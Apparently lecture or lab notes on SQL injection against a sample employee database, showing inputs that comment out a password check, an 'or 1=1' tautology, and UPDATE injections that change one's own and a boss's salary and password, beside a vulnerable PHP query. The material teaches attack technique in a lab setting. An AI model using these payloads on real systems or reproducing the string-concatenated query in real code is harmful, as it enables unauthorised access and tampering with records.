 ```sql
Select name, salary, ssn
from employee
where eid='EID1000 #' and password='   ';
```

```sql
Select name, salary, ssn
from employee
where eid='EID1000 #'
```
```sql
EID1000 '#
```
comment at the end of eid to ignore password

#### Don't know eid or password

```sql
Select name, salary, ssn
from employee
where eid='xyz' or 1=1--' and password='___';
```

## 7.6 SQL Injection: Modify Database
([top](#directory))


### change you own salary

update your own password, set new salary

```php
$sql="UPDATE employee
set password = '$newpwd' 
where eid = '$eid' and password = '$oldpwd'";
```

```SQL
UPDATE employee
set password = 'newpassword', salary =1000000  -- ' 
where eid = 'EID5000' and password = 'password'
```

### Change your boss salary
EID5001

```sql
update ___
set password = 'ihateyou',salary=0 --'
where eid= 'EID5001' --' and password='    '
```

## 7.7 Turn One SQL Statement into Multiple Statments
([top](#directory))
